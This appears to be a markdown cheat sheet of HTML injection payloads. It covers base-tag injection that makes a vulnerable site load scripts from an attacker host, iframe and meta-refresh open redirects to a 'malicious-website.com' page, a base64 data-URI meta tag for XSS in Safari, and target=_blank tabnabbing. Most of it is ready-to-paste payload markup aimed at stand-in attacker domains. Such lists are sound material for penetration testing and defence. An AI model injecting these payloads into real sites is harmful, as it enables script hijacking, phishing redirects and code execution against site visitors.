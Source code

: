 # HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.

## iframe
The `<iframe>` tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

### Open redirect
Child document can view and set location property for parent, even if cross-origin top.window.location.
Inject an iframe to vulnerable-website.com:
```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```
where `https://malicious-website.com/toplevel.html` contains:
```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```
When the iframe is loaded, the parent will be redirected to the https://malware-website.com/pwned.html page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. .



## meta
The `<meta` tag represents metadata that cannot be represented by other HTML meta-related elements.
Some `<meta>` tags are informational, for example:
```html
<meta name="name" content="content">
```
And some affect the page in some way, for example:
```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```
Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
⋅⋅* set-cookie,
..* refresh:
....* redirect to any regular URL,
....* redirect to any data: URL.

set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

## XSS
We can use the <meta> tag with content = "0; data: " URI to execute arbitrary Javascript code (works only on safari), for example:
```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```
Firefox and Chrome will block this:
Not allowed to navigate top frame to data URL (Firefox)

    Navigation to toplevel data: URI not allowed (Chrome)

### Open redirect
Using a similar payload, you can redirect the victim to an malicious page:
```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```

## target attribute
The `target` attribute specifies where to display the linked URL as a name for the browsing context (a tab, window, or <iframe>). The following keywords have special meanings for where to load the URL:
`_self` - the current browsing context, by default.
`_blank` - usually a new tab, but users can configure browsers to open a new window instead.
`_parent` - the parent browsing context of the current one, if no parent, behaves as _self.
`_top` - the topmost browsing context (the "highest" context that’s an ancestor of the current one), if no ancestors, behaves as _self.

### _blank
Using `target=_blank` allows the linked page to get partial access to the source page through the 
API. The newly opened tab can then change the window.opener.location to phishing page or execute javascript on the opener-page.
In newer browser versions (e.g. Firefox 79+) setting target="_blank" on <a> elements implicitly provides the same rel behavior as setting rel="noopener".

### References
https://medium.com/@jitbit/target-blank-the-most-underestimated-vulnerability-ever-96e328301f4c
